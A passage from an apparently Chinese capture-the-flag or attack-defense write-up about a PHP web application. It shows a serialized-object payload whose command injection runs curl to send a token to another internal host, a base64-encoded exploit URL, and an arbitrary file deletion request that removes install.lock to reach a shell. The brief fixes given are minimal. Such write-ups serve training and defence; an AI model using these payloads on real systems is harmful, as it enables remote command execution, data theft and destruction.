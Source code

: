 ```php
			return $this->ip;
		}
	}
 
	class ping{
		private $ip="1 | curl http://10.0.1.2?token=WNHOMGGL";
		
		function execute(){
			$str = 'ping '.$this->ip;
			system($str);
		}
    }
    
    $getIp = new getip();
    $getResult = new getresult();
	$ping = new ping();
	
    $getIp -> ip = $getResult;
    $getResult -> obj = $ping;
    $result =  serialize($getIp);
    echo $result.'<br>';
    $result = base64_encode($result);
    echo $result.'<br>';
```


然后我们将构建好的base64编码值放入到ip参数中，最后获取flag值
`http://101.71.29.6:10025/include/ping.php?ip=Tzo1OiJnZXRpcCI6MTp7czoyOiJpcCI7Tzo5OiJnZXRyZXN1bHQiOjI6e3M6Mzoib2JqIjtPOjQ6InBpbmciOjE6e3M6ODoiAHBpbmcAaXAiO3M6Mzk6IjEgfCBjdXJsIGh0dHA6Ly8xMC4wLjEuMj90b2tlbj1XTkhPTUdHTCI7fXM6MjoiaXAiO3M6OToiMTI3LjAuMC4xIjt9fQ==`



## 防护方法
删除该文件即可


# 10. 后台任意文件删除漏洞

## 解题步骤
`/admin/system/uploadfile.php`
```php
if($action=='deletefolder'){
	$filedir="../../".$filename;
    unlink($filedir);
    metsave($rurls);
}
```
最后构建payload如下，可以删除安装锁文件
`http://101.71.29.6:10025/admin/system/uploadfile.php?action=deletefolder&filename=config/install.lock`
在利用安装的getshell漏洞进行写入shell

## 防护方法
删代码
上过滤脚本 ` / php .`